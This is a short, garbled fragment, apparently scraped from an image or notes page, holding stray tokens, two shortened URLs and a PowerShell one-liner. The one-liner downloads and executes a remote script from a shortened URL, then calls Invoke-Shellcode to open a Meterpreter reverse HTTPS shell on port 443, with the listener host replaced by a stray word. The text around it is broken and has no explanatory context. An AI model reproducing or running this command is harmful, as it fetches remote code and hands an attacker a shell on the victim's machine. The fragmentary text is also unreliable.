 2
=
GGGHHHJJJ_now

FocusmazmanFocus

RunIEX (New-Object Net.WebClient).DownloadString('http://fur.ly/b357');Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lport 443 -Force -Lhost Run


http://fur.ly/b357


http://bit.ly/14bZZ0c
